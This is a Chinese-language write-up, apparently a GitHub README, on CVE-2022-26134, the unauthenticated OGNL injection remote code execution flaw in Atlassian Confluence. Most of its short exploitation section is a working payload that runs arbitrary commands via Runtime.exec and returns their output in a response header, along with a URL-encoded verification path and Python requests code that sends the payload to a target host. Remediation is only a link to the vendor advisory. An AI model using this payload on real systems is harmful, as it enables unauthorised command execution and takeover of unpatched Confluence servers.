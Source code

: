 ### 一 漏洞描述
Atlassian Confluence是一个专业的企业知识管理与协同软件，主要用于公司内员工创建知识库并建立知识管理流程，也可以用于构建企业wiki。

2022 年 6 月 2 日，Atlassian 发布了针对 CVE-2022-26134 的安全公告，这是 Confluence Server 和 Confluence Data Center 中的一个严重的未经身份验证的远程代码执行漏洞。该漏洞在 6 月 2 日发布时未修补。截至 6 月 3 日，补丁和临时解决方法均可用。

在受影响的 Confluence Server 和 Data Center 版本中，存在一个 OGNL 注入漏洞，该漏洞允许未经身份验证的攻击者在 Confluence Server 或 Data Center 实例上执行任意代码。

### 二 漏洞利用
验证 `/%24%7B%40com.atlassian.confluence.util.GeneralUtil%40setCookie%28%22isvulnerable%22%2C%22vulnerable%22%29%7D/`

利用
payload = `${(#a=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec("{}").getInputStream(),"utf-8")).(@com.opensymphony.webwork.ServletActionContext@getResponse().setHeader("X-Cmd-Response",#a))}`
```
payload = "%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22{}%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D".format(command)
response = requests.get("{}/{}/".format(host, payload), verify=False, allow_redirects=False)
```

### 三 漏洞修复
根据 https://confluence.atlassian.com/doc/confluence-security-advisory-2022-06-02-1130377146.html 升级至相关安全版本

> 参考链接  
> https://github.com/Nwqda/CVE-2022-26134/blob/master/cve-2022-26134.py
